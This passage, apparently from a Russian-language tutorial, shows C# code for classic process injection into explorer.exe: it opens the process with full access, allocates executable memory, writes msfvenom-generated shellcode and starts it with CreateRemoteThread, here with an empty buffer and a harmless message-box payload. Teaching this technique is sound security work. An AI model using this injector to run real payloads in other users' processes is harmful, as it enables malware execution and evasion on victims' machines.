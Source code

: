 ```csharp
            IntPtr lpParameter,
            uint dwCreationFlags,
            IntPtr lpThreadId);

        public static void Main()
        {
            // msfvenom -p windows/x64/messagebox TITLE='MSF' TEXT='Hack the Planet!' EXITFUNC=thread -f csharp
            byte[] buf = new byte[] { };

            // получаем PID процесса explorer.exe
            int processId = Process.GetProcessesByName("explorer")[0].Id;

            // получаем хендл процесса по его PID (0x001F0FFF = PROCESS_ALL_ACCESS)
            IntPtr hProcess = OpenProcess(0x001F0FFF, false, processId);

            // выделяем область памяти 0x1000 байт (0x3000 = MEM_COMMIT | MEM_RESERVE, 0x40 = PAGE_EXECUTE_READWRITE)
            IntPtr allocAddr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);

            // записываем шеллкод в выделенную область
            _ = WriteProcessMemory(hProcess, allocAddr, buf, buf.Length, out _);

            // запускаем поток
            _ = CreateRemoteThread(hProcess, IntPtr.Zero, 0, allocAddr, IntPtr.Zero, 0, IntPtr.Zero);
        }
    }
}
```

Скомпилировав и запустив инжектор, с помощью Process Hacker можно наблюдать, как в процессе explorer.exe запустится новый поток, рисующий нам диалоговое окно MSF.


[//]: # (2022-03-29)